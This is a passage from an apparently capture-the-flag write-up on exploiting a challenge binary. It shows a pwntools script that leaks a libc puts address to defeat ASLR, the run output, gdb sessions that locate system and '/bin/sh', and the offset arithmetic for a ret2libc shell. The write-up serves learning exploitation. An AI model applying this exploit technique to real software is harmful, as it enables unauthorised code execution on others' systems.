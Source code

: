 ```
print target.recvuntil(">>")

#Se;ect the option to exit the loop, then scan in the address
target.sendline('3')
print target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\n")
puts_leak = target.recvline()
puts_leak = u64(puts_leak[0:6] + (8 - len(puts_leak[0:6]))*"\x00")
log.info("puts_leak: " + hex(puts_leak))


#drop to an interactive shell
target.interactive()
```

and when we run it:

```
$	python leak1.py
```

...

```
[*] puts_leak: 0x7febc7688920
[*] Switching to interactive mode
```

and when we check that address in gdb, we can see that we have the right address:

```
gdb-peda$ p puts
$2 = {<text variable, no debug info>} 0x7febc7688920 <_IO_puts>
```

So we can successfully leak a libc address to break aslr. Let's find the offsets from the libc address of `system` and `/bin/sh` to `puts`, so we can calculate the addresses of `system` and `/bin/sh` in our exploit:

```
gdb-peda$ p puts
$4 = {<text variable, no debug info>} 0x7febc7688920 <_IO_puts>
gdb-peda$ p system
$5 = {<text variable, no debug info>} 0x7febc765d6a0 <__libc_system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7febc77a2c40 --> 0x68732f6e69622f ('/bin/sh')
```

and now onto python

```
>>> hex(0x7febc765d6a0 - 0x7febc7688920) 
'-0x2b280'
>>> hex(0x7febc77a2c40 - 0x7febc7688920) 
'0x11a320'
```
